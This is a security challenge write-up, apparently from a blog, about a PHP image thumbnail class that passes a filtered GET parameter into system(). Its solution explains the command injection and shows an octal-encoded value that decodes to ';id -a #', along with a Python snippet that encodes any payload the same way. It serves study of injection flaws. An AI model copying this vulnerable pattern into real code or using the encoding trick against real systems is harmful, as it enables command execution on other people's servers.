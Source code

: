 ```yaml
---

title: rips-49
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1126895171663089664" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
class ImageViewer {
    private $file;

    function __construct($file) {
        $this->file = "image/$file";
        $this->createThumbnail();
    }

    function createThumbnail() {
        $e = stripcslashes(
            preg_replace(
                '/[^0-9\\\]/',
                '',
                isset($_GET['size']) ? $_GET['size'] : '25'
            )
        );
        system("/usr/bin/convert {$this->file} --resize $e ./thumbs/{$this->file}");
    }

    function __toString() {
        return "<a href={$this->file}>
               <img src=./thumbs/{$this->file}></a>";
    }
}

echo (new ImageViewer("image.png"));

{{< /code >}}

# Solution
{{< code language="php" highlight="11,12,15,18,22" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
class ImageViewer {
    private $file;

    function __construct($file) {
        $this->file = "image/$file";
        $this->createThumbnail();
    }

    function createThumbnail() {
             // 3) stripcslashes will remove single \
             //    but \\ will result in \
        $e = stripcslashes(
            preg_replace(
                // 2) numbers and \ are allowed
                '/[^0-9\\\]/',
                '',
                // 1) size is user input 
                isset($_GET['size']) ? $_GET['size'] : '25'
            )
        );
        // 4) $e can be used for command injection here when strings are encoded in ocatal, see example
        system("/usr/bin/convert {$this->file} --resize $e ./thumbs/{$this->file}");
    }
    function __toString() {
        return "<a href={$this->file}>
               <img src=./thumbs/{$this->file}></a>";
    }
}
echo (new ImageViewer("image.png"));


// example:
// var_dump(stripcslashes(preg_replace('/[^0-9\\\]/', '',"\\073\\151\\144\\040\\055\\141\\040\\043")));
// string(8) ";id -a #"


// payload = ";id -a #"
// p = []
// for c in payload:
//     p.append("%03d"%(int(oct(ord(c))[2:])))
// print("\\\\" + "\\\\".join(p))



{{< /code >}}
